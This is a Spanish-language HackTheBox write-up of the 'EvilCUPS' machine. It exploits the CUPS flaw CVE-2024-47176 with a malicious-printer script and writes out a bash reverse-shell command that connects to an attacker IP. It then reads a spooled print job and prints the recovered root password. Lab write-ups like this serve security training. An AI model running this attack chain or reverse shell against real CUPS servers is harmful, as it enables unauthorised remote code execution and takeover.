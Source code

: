 ```yaml
---
title: EvilCUPS Writeup
author: Fuzz3d
date: 2024-10-15
categories: [Blogging, Web, Writeup]
tags: [web, htb, writeup, hacking]
render_with_liquid: false
---
```


# Acerca de EvilCUPS

![alt text](../assets/img/image.png)

EvilCUPS es una máquina Linux de dificultad media que presenta una vulnerabilidad de inyección de comandos CUPS [CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176). Esta CVE permite a usuarios remotos no autenticados la capacidad de instalar una impresora maliciosa en la máquina vulnerable a través de `UDP/631`. Esta impresora está configurada para utilizar [Foomatic-RIP](https://linux.die.net/man/1/foomatic-rip) que se utiliza para procesar documentos y donde se produce la inyección de comandos. Para desencadenar la ejecución del comando, es necesario imprimir un documento. El servidor web CUPS está configurado para permitir el acceso de usuarios anónimos a `TCP/631`. Navegando aquí es posible imprimir una página de prueba en la impresora maliciosa y obtener acceso como usuario «lp». Este usuario tiene la capacidad de recuperar trabajos de impresión anteriores, uno de los cuales contiene la contraseña de root de la caja. 

    OS: Linux
    Difficulty: Medium
    Platform: HackTheBox

## Enumeración

Primero que todo debemos realizar la enumeracion de puertos y servicios con la herramienta nmap para ver si hay algún puerto abierto que nos de un posible vector de ataque. 

```bash
nmap -p- --open -sS -n -Pn --min-rate 5000 -sCV -vvv 10.10.11.40 -oN target
```

![alt text](../assets/img/image2.png)

tambien podemos realizar un escaneo de puertos por el protocolo UDP utilizando nmap con la opción `-sU` para obtener una lista de puertos abiertos y los servicios que están en uso. 

```bash
nmap -sU -p 631 10.10.11.40
```
![alt text](../assets/img/image3.png)

Podemos echar un vistazo a la pagina web que se aloja en ``http://10.10.11.40:631/`` y hacernos una idea de la arquitectura de la máquina y a que nos estamos enfrentando.

![alt text](../assets/img/image5.png)

Si miramos bien, la version que utiliza CUPS es la 2.4.2 que precisamente es una version vunerable, tambien se encuentran ventanas dentro de la pagina web en las cuales vemos que hay apartados como Administracion a la cual no tenemos acceso (nos devuelve un codigo de estado **403**), trabajos e impresoras. 

## Explotacion

`cups-browsed` se enlaza a `INADDR_ANY:631`, haciendo que confíe en cualquier paquete de cualquier origen, y puede provocar la petición IPP `Get-Printer-Attributes` a una URL controlada por el atacante. Cuando se combina con otras vulnerabilidades, como **CVE-2024-47076**, **CVE-2024-47175** y **CVE-2024-47177**, un atacante puede ejecutar comandos arbitrarios de forma remota en la máquina de destino sin autenticación cuando se imprime en una impresora maliciosa.

Para abusar de esta vulnerabilidad, podemos hacer uso del siguiente script en python que realiza la inyección de comandos en la impresora maliciosa. [evilcups.py](https://github.com/IppSec/evil-cups/blob/main/evilcups.py)

> El script tiene como finalidad explotar una impresora CUPS (Common UNIX Printing System) mediante la simulación de una impresora maliciosa que inyecta un comando específico proporcionado por el usuario.

IPPServer y MaliciousPrinter:

- Se implementa una clase MaliciousPrinter que hereda de StatelessPrinter, una clase de comportamiento que representa una impresora que no almacena el estado. Esta clase está diseñada para modificar ciertos atributos de la impresora y ejecutar el comando proporcionado por el usuario. Los atributos de la impresora son modificados para incluir un comando malicioso en el campo printer-more-info. El comando se ejecuta a través de foomatic-rip, un filtro de procesamiento de trabajos de impresión.

Funcionalidad principal:

- El script crea un servidor IPP utilizando la biblioteca ippserver y escucha en el puerto 443 de la máquina local. Este servidor se hace pasar por una impresora maliciosa. Luego, envía un paquete UDP al puerto 631 (el puerto donde típicamente escucha el servicio CUPS) del host objetivo, haciendo que este reconozca la impresora falsa y potencialmente ejecute el comando malicioso. El comando malicioso se envía al objetivo mediante un campo dentro de los atributos de la impresora cuando esta es listada.

Paquete malicioso:

- En la función send_browsed_packet, se envía un paquete con información sobre la impresora maliciosa, indicando al objetivo la URL de la impresora falsa y su "estado hackeado". Esta URL incluye el comando que será ejecutado si el servidor objetivo procesa esta información.

Parámetros de entrada:

- El script requiere tres parámetros: la IP del servidor local, la IP del host objetivo, y el comando malicioso que deseas ejecutar en el sistema objetivo.

Comportamiento:

- Al ejecutarse, este script inyecta el comando especificado mediante la simulación de un trabajo de impresión, intentando que el servidor CUPS ejecute dicho comando en el contexto del sistema comprometido.

Para ejecutar el script, primero se instala el paquete ippserver con `pip install ippserver` y luego se ejecuta el script con el siguiente comando:

```bash
python evil-cups.py 10.10.14.20 10.10.11.40 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
```
En este punto, la impresora aparece en el servidor web TCP de CUPs:

![alt text](../assets/img/image6.png)

Para recibir la shell lo que debemos hacer es cambiar la opcion que dice **mantenimiento** por **Imprimir pagina de prueba** estando a la escucha con netcat por el puerto 443.

![alt text](../assets/img/image7.png)

Y si hicimos los pasos correctos, obtendremos una shell como usuario lp:

![alt text](../assets/img/image8.png)

Yendo al directorio `home/htb` podemos encontrar el archivo `user.txt` que contiene la flag. 

Segun la documentacion de CUPS, El programador almacena los archivos de trabajo en un directorio spool, normalmente /var/spool/cups. En el directorio spool se encontrarán dos tipos de archivos: los archivos de control que empiezan por la letra «c» («c00001», «c99999», «c100000», etc.) y los archivos de datos que empiezan por la letra «d» («d00001-001», «d99999-001», «d100000-001», etc.) Los archivos de control son mensajes IPP basados en los mensajes IPP originales Print-Job o Create-Job, mientras que los archivos de datos son los archivos de impresión originales que se enviaron a imprimir.

En este caso podemos leer el archivo `d00001-001` que contiene la contraseña de root de la maquina (Br3@k-G!@ss-r00t-evilcups).

![alt text](../assets/img/image9.png)

Finalmente podemos utilizar esta password cambiar al usuario root y leer la ultima flag que encontramos en el directorio `/root/root.txt`.